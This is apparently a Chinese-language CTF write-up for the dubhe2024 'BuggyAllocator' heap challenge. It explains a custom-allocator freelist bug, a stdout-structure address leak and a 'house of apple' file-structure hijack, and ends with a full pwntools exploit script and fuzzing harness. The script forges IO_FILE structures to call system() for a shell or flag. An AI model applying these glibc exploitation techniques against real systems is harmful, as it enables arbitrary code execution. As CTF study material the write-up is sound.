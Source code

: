 在堆题中遇到没有show()函数的情况，导致无法泄露地址。这时可以通过修改_IO_2_1_stdout_来强制程序输出一段内存，从而泄露需要的地址。

例题：[dubhe2024 BuggyAllocator](https://files.cnblogs.com/files/blogs/709433/BuggyAllocator.7z?t=1711594448&download=true "dubhe2024 BuggyAllocator")

dubhe2024，xctf分站赛最后一场凄惨爆零，主看了这道题一整天，逆清楚了但找不到漏洞。~~事后来看当时就算找到洞了也不会这种泄露手法。~~

简单逆一下程序，结构体整理好，可以发现就是一般菜单题，但当size<=0x80，即fastsize时会使用自己写的堆管理器来管理。管理方式：一个个纯粹的单链表构成类fastbin结构，当该size的fastbin不足时会尝试往该fastbin中塞20个。首先尝试从预先malloc出来的topchunk到extopchunk这段空间中取20*size的空间，拿出来返回回去并往fastbin中塞19个；若取不到20个那么少取一些也行；若topchunk到extopchunk的空间连一个size都取不出来，则先将extopchunk到topchunk这段空间放入fastbin防止内存泄漏，随后先调整topchunk再进行分配。首先找比当前size大的fastbin，若存在，则取出该fastbin并将该chunk的头尾设为topchunk和extopchunk，再返回第一步尝试分配；若没有比当前chunk大的fastbin，就考虑malloc(40*size)作为topchunk和extopchunk，再返回第一步尝试分配。

程序漏洞在于fastbin没有对单链表结束的判断，也没有链表长度统计。所以当程序尝试往fastbin中填充20个chunk时，如果第20个chunk的fd处本来就有数据，那么链表就会被错误地延长。因此，先malloc一个大chunk，在第20个chunk的fd处写入特定的数据，即可实现任意地址分配堆块，实现任意写。

本文主要地址泄露手法主要参考了[这篇文章](https://blog.csdn.net/qq_41202237/article/details/113845320 "这篇文章")。
首先看一下IO_file的结构
```
0x0:'_flags',
0x8:'_IO_read_ptr',
0x10:'_IO_read_end',
0x18:'_IO_read_base',
0x20:'_IO_write_base',
0x28:'_IO_write_ptr',
0x30:'_IO_write_end',
0x38:'_IO_buf_base',
0x40:'_IO_buf_end',
0x48:'_IO_save_base',
0x50:'_IO_backup_base',
0x58:'_IO_save_end',
0x60:'_markers',
0x68:'_chain',
0x70:'_fileno',
0x74:'_flags2',
0x78:'_old_offset',
0x80:'_cur_column',
0x82:'_vtable_offset',
0x83:'_shortbuf',
0x88:'_lock',
0x90:'_offset',
0x98:'_codecvt',
0xa0:'_wide_data',
0xa8:'_freeres_list',
0xb0:'_freeres_buf',
0xb8:'__pad5',
0xc0:'_mode',
0xc4:'_unused2',
0xd8:'vtable'
```
通过gdb单步调试了解到，puts("ABCDEFGH")函数大致可以分为两步：
1.将"ABCDEFGH"一个个写到_IO_write_base和_IO_write_ptr申请的堆地址上，_IO_write_base和_IO_write_p分别指向buf的头和尾。
2.调用sys_write(1,_IO_write_base,_IO_write_ptr-_IO_write_base)
在这些过程中，_flags位用于指挥程序运行流程。看下来并没有什么神秘的部分~~，感觉一系列操作都挺多余的，也不知道为什么libc要这么封装（~~。
阅读上面那篇博客，我们可以得知：
1.设置_flags为0xfbad1800
2.设置_IO_write_base为泄露起始地址
3.设置_IO_write_ptr为泄露结束地址
随后再任意调用一下puts函数，即可完成泄露。

好了理论讲完了，回到题目看看，发现全程用的都是cout<<没有puts()，OvO。嘛不管了差不多的啦，cout<<肯定封装的更多所以应该会有效的吧。。
把堆块分配到stdout上，什么也别干啥也别动，再申请一个就能申请到_IO_2_1_stdout_了，这样修改：
```
fake_stdout = p64(0xfbad1800) + p64(0)
fake_stdout+= p64(0) + p64(0)
fake_stdout+= p64(0x4045d0) + p64(0x4046d0)
```
不用自作聪明把其他的什么_IO_read_ptr或者_IO_buf_base改到同一个什么可写地址，这样好像会让cout<<出错然后自己exit()。前面写0后面不管就可以了，程序做完一次cout就自动变回去了。
![image](https://img2024.cnblogs.com/blog/2567452/202403/2567452-20240328162330796-2054394100.png)
专门挑了个方便点的地方把libc和heap都搞出来，然后就泄露好了。

再就是打house of apple就行了。避免麻烦直接用system了，发现直接system("/bin/sh")或者system("sh")会导致进不去system，毕竟写"/bin/sh"的那里是_flags，不过前面加个空格就好了，但system(" sh")拿到的shell不知道为啥没法交互。最终system(" cat flag")拿了flag，还是没拿到shell。学了个py好看的语法糖：
```
IO_file = flat({
0x0: b"  sh",
0x28: b"\1",
0x68: p64(system),
0xa0: p64(fake_addr), # wide data
0xD8: p64(_IO_wfile_jumps), # vtable
0xe0: p64(fake_addr)
}, filler=b"\0")
```
伪造的IO_file完全可以申请一个大chunk放进去，不知道V&N战队为啥还把IO_file拆开到两个chunk里去，可能是做题到最后头晕忘了吧。
最后的最后，懒得搞堆风水了，把原来申请在_IO_2_1_stdout_的chunk释放了再申请回来，把_IO_2_1_stdout_的_chain改到伪造的IO_file处。最后随便输点啥退出即可，题目没有为难俺们。

此外这次比赛期间还试了一下fuzz，虽然没fuzz出洞来，但也算是初尝试了吧，这里记一些python语法和模板：
```
allocated = []
unallocat = [i for i in range(64)]
def fuzz(T):
    f = open("log.txt","w")
    for i in range(0,T):
        if((randint(0,1) or len(allocated)<2) and len(unallocat)>1):
            idxidx = randint(0, len(unallocat)-1)
            idx = unallocat[idxidx]
            allocated.append(idx)
            unallocat.pop(idxidx)
            siz = 0xa0*randint(1,0x20)
            f.write("add({},".format(idx) + "{})\n".format(siz))
            add(idx,siz,b"AAAAAAAA")
        else:
            idxidx = randint(0,len(allocated)-1)
            idx = allocated[idxidx]
            unallocat.append(idx)
            allocated.pop(idxidx)
            f.write("fre({})\n".format(idx))
            fre(idx)

try:
    fuzz(0x8000)
except EOFError:
    print("gg!")
```
exp：
```
from pwn import*
from struct import pack

p = process("./pwn")
libc = ELF("./libc.so.6")

def add(idx,siz,cot):
    p.sendlineafter("> ","1")
    p.sendlineafter(": ",str(idx))
    p.sendlineafter(": ",str(siz))
    p.sendafter(": ",cot)

def fre(idx):
    p.sendlineafter("> ","2")
    p.sendlineafter(": ",str(idx))

def exi():
    p.sendlineafter("> ","sb,you've been hacked!")

bss_H = 0x404900
stdout = 0x404040
payload = b'A'*(19*0x80) + p64(stdout)
add(0,0x2000,payload)
fre(0)
for i in range(20):
    add(i,0x80,"BBBBBBBB")

add(20,0x80,"\x80")
fake_stdout = p64(0xfbad1800) + p64(0)
fake_stdout+= p64(0) + p64(0)
fake_stdout+= p64(0x4045d0) + p64(0x4046d0)

add(21,0x80,fake_stdout)
p.recv(8)
heap_base = u64(p.recv(8))
p.recv(0x18)
_IO_2_1_stdout_ = u64(p.recv(8))
libc_base = _IO_2_1_stdout_ - libc.symbols["_IO_2_1_stdout_"]
print(hex(libc_base))
print(hex(heap_base))
system = libc_base + libc.symbols["system"]
_IO_wfile_jumps = libc_base + libc.symbols["_IO_wfile_jumps"]
fake_addr = heap_base + 0xa90
IO_file = flat({
0x0: b"  sh",
0x28: b"\1",
0x68: p64(system),
0xa0: p64(fake_addr), # wide data
0xD8: p64(_IO_wfile_jumps), # vtable
0xe0: p64(fake_addr)
}, filler=b"\0")
add(22,0x100,IO_file)

fre(21)
fake_stdout = p64(0xfbad1800) + p64(_IO_2_1_stdout_+131)
fake_stdout+= p64(_IO_2_1_stdout_+131) + p64(_IO_2_1_stdout_+131)
fake_stdout+= p64(_IO_2_1_stdout_+131) + p64(_IO_2_1_stdout_+131)
fake_stdout+= p64(_IO_2_1_stdout_+132) + p64(_IO_2_1_stdout_+131)
fake_stdout+= p64(_IO_2_1_stdout_+132) + p64(0)
fake_stdout+= p64(0) + p64(0)
fake_stdout+= p64(0) + p64(fake_addr)
add(21,0x80,fake_stdout)
exi()
p.interactive()
```
